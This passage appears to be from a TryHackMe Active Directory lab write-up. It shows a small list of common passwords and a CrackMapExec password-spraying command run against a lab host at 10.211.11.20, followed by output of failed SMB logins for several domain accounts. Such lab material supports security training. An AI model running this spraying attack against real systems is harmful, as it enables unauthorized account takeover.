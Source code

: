 ```bash                                                      
┌──(mdn0x㉿mdn0xonKali)-[~/THM/LEARN/Windows/AD]
└─$ cat passwd                              
Password!
Password1
Password1!
P@ssword
Pa55word1
```

We can use **CrackMapExec** to run our password spraying attack against the WRK computer:

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/LEARN/Windows/AD]
└─$ crackmapexec smb 10.211.11.20 -u users -p passwd   

- - - - - - - - - - - - - - - - - - - - - - - - - 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\empanadal0v3r:Password! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\empanadal0v3r:Password1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\empanadal0v3r:Password1! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\empanadal0v3r:P@ssword STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\empanadal0v3r:Pa55word1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\drgonz0:Password! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\drgonz0:Password1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\drgonz0:Password1! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\drgonz0:P@ssword STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\drgonz0:Pa55word1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\strate905:Password! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\strate905:Password1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\strate905:Password1! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\strate905:P@ssword STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\strate905:Pa55word1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\krbtgtsvc:Password! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\krbtgtsvc:Password1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\krbtgtsvc:Password1! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\krbtgtsvc:P@ssword STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\krbtgtsvc:Pa55word1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\asrepuser1:Password! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\asrepuser1:Password1 STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\asrepuser1:Password1! STATUS_LOGON_FAILURE 
SMB         10.211.11.20    445    WRK              [-] tryhackme.loc\asrepuser1:P@ssword STATUS_LOGON_FAILURE 
```